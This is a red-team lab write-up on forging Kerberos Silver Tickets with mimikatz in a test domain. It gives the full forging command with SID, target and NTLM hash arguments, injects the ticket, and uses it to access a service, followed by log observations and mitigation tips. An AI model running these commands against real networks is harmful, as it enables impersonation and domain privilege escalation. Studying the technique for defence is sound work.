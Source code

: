 ```yaml
---
description: Credential Access
---
```


# Kerberos: Silver Tickets

This lab looks at the technique of forging a cracked TGS Kerberos ticket in order to impersonate another user and escalate privileges from the perspective of a service the TGS was cracked for.

This lab builds on the explorations in [T1208: Kerberoasting](t1208-kerberoasting.md) where a TGS ticket got cracked.

## Execution

I will be using mimikatz to create a Kerberos Silver Ticket - forging/rewriting the cracked ticket with some new details that benefit me as an attacker. 

Below is a table with values supplied to mimikatz explained and the command itself:

| Argument | Notes |
| :--- | :--- |
| /sid:S-1-5-21-4172452648-1021989953-2368502130-1105 | SID of the current user who is forging the ticket. Retrieved with `whoami /user` |
| /target:dc-mantvydas.offense.local | server hosting the attacked service for which the TGS ticket was cracked |
| /service:http | service type being attacked |
| /rc4:a87f3a337d73085c45f9416be5787d86 | NTLM hash of the password the TGS ticket was encrypted with. `Passw0rd` in our case |
| /user:beningnadmin | Forging the user name. This is the user name that will appear in the windows security logs - fun. |
| /id:1155 | Forging user's RID - fun |
| /ptt | Instructs mimikatz to inject the forged ticket to memory to make it usable immediately |

Getting our user's SID as explained in the first step in the above table:

![Getting a user&apos;s SID](../../.gitbook/assets/silver-tickets-whoami.png)

Issuing the final mimikatz command to create our forged \(silver\) ticket:

{% code-tabs %}
{% code-tabs-item title="attacker@victim" %}
```csharp
mimikatz # kerberos::golden /sid:S-1-5-21-4172452648-1021989953-2368502130-1105 /domain:offense.local /ptt /id:1155 /target:dc-mantvydas.offense.local /service:http /rc4:a87f3a337d73085c45f9416be5787d86 /user:beningnadmin
```
{% endcode-tabs-item %}
{% endcode-tabs %}

Checking available tickets in memory with `klist` - note how the ticket shows our forged username `benignadmin` and a forged user id:

![](../../.gitbook/assets/silver-tickets-generated-ticket%20%282%29.png)

Note in the above mimikatz window the `Group IDs` which our fake user `benignadmin` is now a member of due to the forged ticket:

| GID | Group Name |
| :--- | :--- |
| 512 | Domain Admins |
| 513 | Domain Users |
| 518 | Schema Admins |
| 519 | Enterprise Admins |
| 520 | Group Policy Creator Owners |

![](../../.gitbook/assets/silver-tickets-groups.png)

Initiating a request to the attacked service with a TGS ticket - note that the authentication is successfull:

{% code-tabs %}
{% code-tabs-item title="attacker@victim" %}
```csharp
Invoke-WebRequest -UseBasicParsing -UseDefaultCredentials http://dc-mantvydas.offense.local
```
{% endcode-tabs-item %}
{% endcode-tabs %}

![](../../.gitbook/assets/silver-tickets-httprequest.png)

## Observations

Note a network logon from `benignadmin` as well as forged RIDs:

![](../../.gitbook/assets/silver-tickets-4624%20%281%29.png)

It is better not to use user accounts for running services on them, but if you do, make sure to use really strong passwords! Computer accounts generate long and complex passwords and they change frequently, so they are better suited for running services on. Better yet, follow good practices such as using [Group Managed Service Accounts](https://docs.microsoft.com/en-us/previous-versions/windows/it-pro/windows-server-2012-R2-and-2012/hh831782%28v=ws.11%29) for running more secure services.

## References

{% embed url="https://blog.stealthbits.com/impersonating-service-accounts-with-silver-tickets" %}

{% embed url="https://adsecurity.org/?p=2011" %}

